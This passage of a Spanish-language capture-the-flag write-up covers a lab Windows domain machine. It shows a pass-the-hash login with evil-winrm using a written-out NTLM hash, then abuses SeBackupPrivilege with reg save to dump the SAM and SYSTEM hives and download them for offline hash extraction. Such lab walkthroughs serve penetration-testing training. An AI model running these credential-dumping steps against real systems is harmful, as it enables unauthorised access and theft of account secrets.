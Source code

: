 ### Abusing WinRM

Ya sabemos que el usuario "svc\_backup" forma parte del grupo "Remote Management Users" debido que lo habíamos enumerado antes con **ldapdomaindump**, accederemos al WinRM a través de **evil-winrm**.

Verificamos la flag de **user.txt**.

```bash
evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```

<figure><img src="../../../../../.gitbook/assets/1756_vmware_3HFMO2Vrfu.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SeBackupPrivilege Exploitation

Revisando los permisos del usuario "svc\_backup" comprobamos que dispone del privilegio de **SeBackupPrivilege**. Por lo cual perfectamente nos podríamos dumpear la SAM para obtener los hashes del usuario Administrator (local).

```powershell
whoami /priv
```

<figure><img src="../../../../../.gitbook/assets/1736_vmware_gIu0IUNheH (1).png" alt="" width="479"><figcaption></figcaption></figure>

Extraeremos la SAM y SYSTEM y nos la descargaremos en nuestra Kali.

```powershell
reg save hklm\sam C:\Windows\Temp\test\SAM

reg save hklm\system C:\Windows\Temp\test\SYSTEM

download SAM

download SYSTEM
```

